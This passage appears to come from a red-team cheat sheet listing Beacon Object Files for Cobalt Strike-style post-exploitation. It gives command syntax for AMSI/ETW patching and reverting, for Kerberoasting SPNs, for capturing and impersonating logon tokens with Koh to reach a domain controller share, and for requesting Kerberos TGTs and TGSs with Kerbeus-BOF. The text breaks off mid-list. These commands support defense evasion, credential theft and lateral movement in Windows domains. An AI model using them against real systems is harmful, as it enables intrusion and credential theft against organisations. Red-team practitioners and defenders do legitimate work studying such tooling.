 # DO NEFARIOUS STUFF HERE....

patchit revertAll --> Revert both AMSI and ETW
patchit revertAmsi --> Revert only AMSI
patchit revertEtw --> Revert only ETW
```

- [**Kerberoast BOF**](https://github.com/cube0x0/BofRoast)<br />
BOF for targeted Kerberoasting against input SPN to roast<br />
Returns TGS that you can pass to apreq2hashcat.py (provided in repo) to output the hashcat format<br />
```kerberoast SPN/HOSTNAME.domain.local```

- [**Koh**](https://github.com/GhostPack/Koh)<br />
GhostPack BOF that allows for the capture of user credentials via purposeful token/logon session leakage.<br />
Koh has a BOF client for capturing logon tokens in Cobalt Strike and a C# capture server to negotiate captured tokens for new logon sessions.<br />
```
# Koh client BOF
help koh
  koh list              - lists captured tokens
  koh groups LUID       - lists the group SIDs for a captured token
  koh filter list       - lists the group SIDs used for capture filtering
  koh filter add SID    - adds a group SID for capture filtering
  koh filter remove SID - removes a group SID from capture filtering
  koh filter reset      - resets the SID group capture filter
  koh impersonate LUID  - impersonates the captured token with the give LUID
  koh release all       - releases all captured tokens
  koh release LUID      - releases the captured token for the specified LUID
  koh exit              - signals the Koh server to exit

koh list --> List current logon sessions
koh impersonate <LUID> --> Impersonate a logon session from above output

ls \\dc.theshire.local\C$ --> Use the impersonated privileged logon session to interact with a target system
```

- [**Kerbeus-BOF**](https://github.com/RalfHacker/Kerbeus-BOF)
The first Rubeus BOF implementation released in November 2023 which has integration with Cobalt Strike and Havoc!<br />
```
help kerbeus --> Show help menu

# Ticket requests
krb_asktgt /user:USER /password:PASSWORD [/domain:DOMAIN] [/dc:DC] [/enctype:{rc4|aes256}] [/ptt] [/nopac] [/opsec] --> Ask TGT
- krb_asktgt /usr:domainadmin /password:SuperSecure123
krb_asktgs /ticket:BASE64 /service:SPN1,SPN2 [/domain:DOMAIN] [/dc:DC] [/tgs:BASE64] [/targetdomain:DOMAIN] [/targetuser:USER] [/enctype:{rc4|aes256}] [/ptt] [/keylist] [/u2u] [/opsec] --> Ask TGS
- krb_asktgs /ticket:<BASE64> /service:HTTP/dc1.domain.com,CIFS/dc1.domain.com /opsec
krb_renew /ticket:BASE64 [/dc:DC] [/ptt] --> Renew TGT
